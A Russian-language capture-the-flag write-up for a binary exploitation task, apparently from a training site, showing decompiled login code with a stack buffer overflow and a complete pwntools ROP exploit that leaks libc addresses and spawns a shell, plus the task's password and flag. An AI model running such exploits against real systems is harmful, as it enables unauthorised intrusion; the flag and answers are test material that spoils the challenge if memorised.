

[DUCKERZ](https://duckerz.ru/categories/PWN/98)
Описание
Герой уже неделю живёт в этом роскошном отеле, но назвать его отдых идеальным сложно. Стандартный номер, скрипучая кровать, тусклый свет — явно не то, на что он рассчитывал. В соседних номерах постояльцы наслаждаются панорамными видами, джакузи и персональным обслуживанием, пока он вынужден мириться с этой посредственностью. Такое положение дел его не устраивает. Пора переселяться. Всё, что нужно, — изменить один параметр в базе данных. Ходят слухи, что сеть отеля не так уж и защищена, а доступ к серверу можно получить через уязвимость в роутере...

Задание
[luxury.zip](https://download.tasks.duckerz.ru/Luxury/luxury.zip)
nc tasks.duckerz.ru 30004

## Исходный код

``` C
int __fastcall __noreturn main(int argc, const char **argv, const char **envp)
{
  setvbuf(stdout, nullptr, 2, 0);
  setvbuf(stdin, nullptr, 2, 0);
  setvbuf(stderr, nullptr, 2, 0);

  puts("Добро пожаловать в панель управления роутером!");
  while ( 1 )
  {
    if ( is_admin != 1 )
      login();
    else
      admin();
  }
}
```

``` C
int login()
{
  char login_1[32]; // [rsp+0h] [rbp-40h] BYREF
  char password[32]; // [rsp+20h] [rbp-20h] BYREF

  printf("Введите ваш логин: ");
  fgets(login_1, 32, stdin);
  printf("Введите ваш пароль: ");
  fgets(password, 96, stdin);
  if ( strncmp(login_1, "admin", 5u) || strncmp(password, "V3rY_sTroNg_p1ss", 0x10u) )
    return puts("К сожалению такого пользователя не существует.\n");
  is_admin = 1;
  return puts("Вы зашли как администратор!\n");
}

int admin()
{
  int result; // eax
  int choice; // [rsp+Ch] [rbp-4h]

  puts("Выберите функцию для просмотра:");
  puts("1. printf");
  puts("2. puts");
  puts("3. fgets");
  puts("4. login");
  puts(a5);
  printf("> ");
  choice = getc(stdin);

  getc(stdin);
  putchar('\n');
  switch ( choice )
  {
    case '1':
      result = printf("printf -> %p\n\n", &printf);
      break;
    case '2':
      result = printf("puts -> %p\n\n", &puts);
      break;
    case '3':
      result = printf("fgets -> %p\n\n", &fgets);
      break;
    case '4':
      result = printf("login -> %p\n\n", login);
      break;
    case '5':
      result = puts("Вы вышли из аккаунта.\n");
      is_admin = 0;
      break;
    default:
      result = puts("К сожалению эту функцию нельзя просмотреть.\n");
      break;
  }
  return result;
}
```

## Анализ кода

В коде захардкожен пароль от админки, с помощью которого можно узнать адреса функций `printf`, `puts`, `fgets`.
Также функция `login` имеет уязвимость переполнения буфера. Переменная `password` - это массив из 32 символов, а считывается в него 96.
## План атаки

Задача изначально предоставляет все адреса. Вектор атаки: составить ROP-цепочку из гаджетов и вызвать шелл.

1. Зайди под админкой и ликнуть адреса функций;
2. Найти возможные версии libc;
3. Достать гаджеты;
4. Составить ROP цепочку и получить флаг.

Для начала ликну адреса и найду libc:


Беру любую и собираю из неё гаджеты.


Для получения шелла надо вызвать `system("/bin/sh")`.

Из всех этих вариантов `str_bin_sh` мог иметь 3 разных адреса: `0x1a5ea4` `0x1a6ea4` `0x1a7ea4`.

Эксплоит:
``` python
printf_offset = 0x59900
system_offset = 0x53110
str_bin_sh_offset = 0x1a7ea4 # возможные варианты: 0x1a5ea4 0x1a6ea4 0x1a7ea4
pop_rdi_ret_offset = 0x000000000002a145
ret_offset = 0x000000000002846b

io = start()

io.sendlineafter(b': ', b'admin')
io.sendlineafter(b': ', b'V3rY_sTroNg_p1ss')

io.sendlineafter(b'> ', b'1')
io.recvuntil(b'-> ')
printf_addr = int(io.recvuntil(b'\n').decode(), 16)

io.sendlineafter(b'> ', b'5')


libc_base = printf_addr - printf_offset
system_addr = libc_base + system_offset
str_bin_sh_addr = libc_base + str_bin_sh_offset
pop_rdi_ret_addr = libc_base + pop_rdi_ret_offset
ret_addr = libc_base + ret_offset

payload = b'A' * 32 + b'B' * 8 + p64(ret_addr) + p64(pop_rdi_ret_addr) + p64(str_bin_sh_addr) + p64(system_addr)

io.sendlineafter(b': ', b'admin')
io.sendlineafter(b': ', payload)

io.interactive()
```

Запуск:


Ответ: `DUCKERZ{NO_R37UrN_To_HOm3}`